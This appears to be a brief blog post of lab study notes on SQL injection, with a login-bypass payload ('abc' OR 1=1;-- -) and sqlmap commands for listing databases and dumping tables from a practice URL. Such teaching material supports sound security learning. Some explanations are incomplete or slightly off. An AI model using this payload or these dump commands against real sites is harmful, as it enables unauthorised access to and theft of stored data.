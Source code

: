```yaml
---
layout: post
title: SqlMap Basics
description: Automated SQL exploitation of vulnerable webapps 
date: 2025-04-04 15:01:35 +0300
image: '/images/07.jpg'
tags: [Linux]
toc: true
---
```


Let's examine a trivial example where a login page looks up ``` username ``` & ```password``` from a database without sanitising input. It executes a query as follows:

  ```sql 
  SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
  ```

An attack could be be made by injecting SQL in the password field:

```html
  Username: `John`
  Password: `abc' OR 1=1;-- -`
``` 

This executes the following query as a result:

```sql
  SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```


  * `'` terminates the string and allows an OR statement to be injected
  * `1=1` returns true so the original query executes as intended 
  * `-- -` 


### Automated SQL Injection
SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications

* `sqlmap --wizard` provides a guided wizard rather than comand line flags
* `--dbs` Extract database names
* `-D database_name --tables` extract tables from a db
* `-D database_name -T table_name --dump` dump records from a table

First step is to look for a vulnerable URL or request

* `http://sqlmaptesting.thm/search?cat=1`
  Some URL’s use a GET parameter to retrieve data
* Any web app uing a GET param in the URL can be tested with `-u` flag
  `sqlmap -u http://sqlmaptesting.thm/search/cat=1`

